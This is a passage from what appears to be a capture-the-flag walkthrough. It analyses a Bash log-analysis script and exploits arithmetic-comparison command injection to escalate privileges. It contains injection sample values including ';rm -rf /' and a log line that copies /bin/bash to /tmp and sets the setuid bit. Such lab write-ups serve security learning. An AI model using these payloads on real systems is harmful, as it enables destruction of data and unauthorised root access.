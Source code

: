 ```
analyze_logins
analyze_http_statuses
display_results | tee "$OUTPUT_FILE"
analyze_log_errors | tee -a "$OUTPUT_FILE"
echo -e "\n${GREEN}Analysis completed. Results saved to $OUTPUT_FILE${RESET}"

```

Let's analysis it
```
The Bash script is a log analysis tool that extracts and summarizes from a log file:

Login status (successful/failed users and times)

HTTP status code distribution

Log level count (INFO/WARN/ERROR, etc.)

Error statistics for Eureka connection failures

The output is displayed in a color terminal and saved as log_analysis.txt.
```

Although the script does a file existence check on $LOG_FILE:
```
if [ ! -f "$LOG_FILE" ]; then ...
```

However, if this script is embedded in other automation environments (such as a web backend calling a shell), and $1 is not escaped or whitelisted, command injection may occur:
```
./script.sh ";rm -rf /"

or

./script.sh "$(echo something; harmful_command)"
```

Also, `[[ "$existing_code" -eq "$code" ]]` is an arithmetic comparison, so once $(...) is embedded in $code, Bash will execute the commands within the brackets first.

By checking the directory ownership:
```
miranda-wise@eureka:/opt$ ls -al /var/www/web/cloud-gateway/log/
total 56
drwxrwxr-x 2 www-data developers  4096 Jul 17 10:07 .
drwxrwxr-x 6 www-data developers  4096 Mar 18 21:17 ..
-rw-rw-r-- 1 www-data www-data   29197 Jul 17 11:35 application.log
-rw-rw-r-- 1 www-data www-data    5702 Apr 23 07:37 application.log.2025-04-22.0.gz
-rw-rw-r-- 1 www-data www-data    5956 Jul 17 10:07 application.log.2025-04-23.0.gz
```
That means we can overwrite application.log
```
miranda-wise@eureka:/var/www/web/cloud-gateway/log$ rm application.log
rm: remove write-protected regular file 'application.log'? y

miranda-wise@eureka:/var/www/web/cloud-gateway/log$ echo 'HTTP Status: x[$(cp /bin/bash /tmp/bash;chmod u+s /tmp/bash)]' >> application.log
```

